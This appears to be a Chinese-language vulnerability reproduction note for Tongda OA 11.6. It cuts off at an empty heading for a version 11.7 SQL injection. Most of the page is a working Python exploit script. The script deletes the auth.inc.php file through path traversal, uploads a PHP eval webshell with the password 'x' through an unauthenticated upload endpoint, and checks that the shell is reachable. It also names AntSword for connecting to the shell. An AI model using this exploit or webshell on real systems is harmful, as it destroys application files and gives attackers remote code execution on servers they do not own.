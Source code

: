 11.6



## 漏洞复现

脚本内容如下，核心思路就是删除网站里的一个名为auth.inc.php的文件，进而越权拿shell

一句话木马的连接密码为：x，最后蚁剑连一下

```python
import requests
target="http://192.168.16.112:8080/"     # 此处填写上面安装oa的ip及端口
payload="<?php eval($_POST['x']);?>"
print("[*]Warning,This exploit code will DELETE auth.inc.php which may damage the OA")
input("Press enter to continue")
print("[*]Deleting auth.inc.php....")

url=target+"/module/appbuilder/assets/print.php?guid=../../../webroot/inc/auth.inc.php"
requests.get(url=url)
print("[*]Checking if file deleted...")
url=target+"/inc/auth.inc.php"
page=requests.get(url=url).text
if 'No input file specified.' not in page:
    print("[-]Failed to deleted auth.inc.php")
    exit(-1)
print("[+]Successfully deleted auth.inc.php!")
print("[*]Uploading payload...")
url=target+"/general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.<>./.<>./.<>./"
files = {'FILE1': ('deconf.php', payload)}
requests.post(url=url,files=files)
url=target+"/_deconf.php"
page=requests.get(url=url).text
if 'No input file specified.' not in page:
    print("[+]Filed Uploaded Successfully")
    print("[+]URL:",url)
else:
    print("[-]Failed to upload file")
```

![image-20210409191007550](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210409191007550.png)





# 通达OA 11.7

后台sql注入



## 影响版本
